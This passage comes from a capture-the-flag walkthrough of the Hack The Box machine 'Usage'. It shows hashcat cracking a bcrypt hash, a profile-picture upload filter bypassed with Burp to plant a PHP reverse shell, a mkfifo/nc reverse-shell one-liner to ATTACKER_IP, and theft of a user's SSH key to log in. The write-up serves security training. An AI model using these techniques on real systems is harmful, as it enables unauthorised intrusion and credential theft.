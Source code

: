 Now we have to crack that hash which is blowfish and for hashcat its 3200, let's save it into a file
```bash
echo "THE_HASH_YOU_HAVE_FOUND" > hash.txt
```

Now we can do a dictionary attack `-a 3` using rockyou wordlist and wait a minute to get the password:
```bash
hashcat -a 3 -m 3200 hash.txt /usr/share/wordlists/rockyou.txt
```
--> whatever1

Now that we have all the credentials we can navigate to the subdomain login page and login
```
http://admin.usage.htb
```

Here we can find on the top right the settings for the user and change it's profile picture, maybe we can upload a reverse shell.
My first try was with a php reverse shell but it got blocked as was not recognized as an image, looks like there are some filters in place.

So i have pasted the reverse shell in a new file called image.jpg, when i try to upload it i don't get errors but it will be uploaded as an image so we can intercept the "submit" request whit Burp's proxy and change back the extension to `.php` and than forward the request.

With a listener waiting for that, as soon as i forwarded the request i got a shell, but was kinda unstable so i created a new connection:
```bash
nc -lvnp 1234
```

```bash
nc -lvnp 12345
```

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc ATTACKER_IP 12345 >/tmp/f
```

Then we can do the procedure to upgrade the shell to a fully interactive TTY or either navigate inside the .ssh folder of the user and copy the ssh key called "id_rsa"
Then on our machine we will need to change it's permissions
```bash
chmod 600 id_rsa
```

Finally we can ssh as the user
```bash
ssh -i id_rsa dash@usage.htb
```

When done we can move into our home directory and open the user falg:
```bash
cd /home/dash
```
```bash
cat user.txt
```
--> REDACTED
